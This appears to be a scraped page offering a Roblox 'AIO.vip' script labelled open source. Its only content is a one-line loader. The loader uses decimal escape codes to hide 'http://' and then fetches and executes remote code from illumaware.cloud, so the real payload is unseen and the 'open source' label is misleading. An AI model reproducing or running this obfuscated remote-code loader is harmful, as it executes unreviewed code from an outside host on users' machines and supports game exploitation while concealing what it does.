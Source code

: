 ## AIO.vip [Open Source]
######
    loadstring(game:HttpGet(loadstring("\114\101\116\117\114\110\32\102\117\110\99\116\105\111\110\40\41\114\101\116\117\114\110\39\104\116\116\112\58\47\47\39\101\110\100\10")()().."illumaware.cloud/secured"))()


